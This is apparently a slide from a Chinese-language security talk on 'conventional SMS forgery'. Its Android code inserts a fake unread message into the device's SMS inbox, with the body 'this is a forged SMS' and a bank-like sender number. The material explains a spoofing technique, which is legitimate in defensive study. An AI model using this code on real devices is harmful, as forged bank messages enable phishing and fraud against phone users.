

# 常规的短信伪造方法
向短信数据库（content://sms/inbox）插入一条记录

    ContentValues values = new ContentValues();
    values.put("address", ”95533");
    values.put("type", "1");
    values.put("read", "0");
    values.put(“body”, “这是一条伪造短信");
    values.put("date", new Date().getTime());
    values.put("person", null);
    Uri uri = this.getApplicationContext().getContentResolver()
     .insert(Uri.parse("content://sms/inbox"), values);